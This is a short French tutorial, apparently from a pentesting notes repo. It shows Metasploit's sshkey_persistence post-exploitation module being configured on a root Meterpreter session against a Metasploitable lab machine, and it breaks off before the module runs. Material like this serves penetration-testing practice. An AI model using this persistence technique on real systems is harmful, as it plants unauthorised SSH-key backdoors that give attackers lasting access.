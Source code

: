 # Tuto authent clé SSH

## Avec Metasploit

Si on possède une session active sur la machine.

```bash
Active sessions
===============

  Id  Name  Type                   Information                              Connection
  --  ----  ----                   -----------                              ----------
                                     ..
  6         meterpreter x86/linux  root @ metasploitable (uid=0, gid=0, eu  10.10.11.2:4433 -> 10.10.11.32:37544 (1
                                   id=0, egid=0) @ metasploitable.localdo.  0.10.11.32)
                                   ..

```

On peut selectionner un module de post exploitation :

```bash
> use post/linux/manage/sshkey_persistence 
msf6 post(linux/manage/sshkey_persistence) > options 

Module options (post/linux/manage/sshkey_persistence):

   Name             Current Setting       Required  Description
   ----             ---------------       --------  -----------
   CREATESSHFOLDER  false                 yes       If no .ssh folder is found, create it for a user
   PUBKEY                                 no        Public Key File to use. (Default: Create a new one)
   SESSION                                yes       The session to run this module on.
   SSHD_CONFIG      /etc/ssh/sshd_config  yes       sshd_config file
   USERNAME                               no        User to add SSH key to (Default: all users on box)
```

On donne alors un numéro de session, et on exécute le module :
```bash
msf6 post(linux/manage/sshkey_persistence) > set SESSION 6
SESSION => 6
msf6 post(linux/manage/sshkey_persistence) > options 

Module options (post/linux/manage/sshkey_persistence):

   Name             Current Setting       Required  Description
   ----             ---------------       --------  -----------
   CREATESSHFOLDER  false                 yes       If no .ssh folder is found, create it for a user
   PUBKEY                                 no        Public Key File to use. (Default: Create a new one)
   SESSION          6                     yes       The session to run this module on.
   SSHD_CONFIG      /etc/ssh/sshd_config  yes       sshd_config file
   USERNAME                               no        User to add SSH key to (Default: all users on box)

```
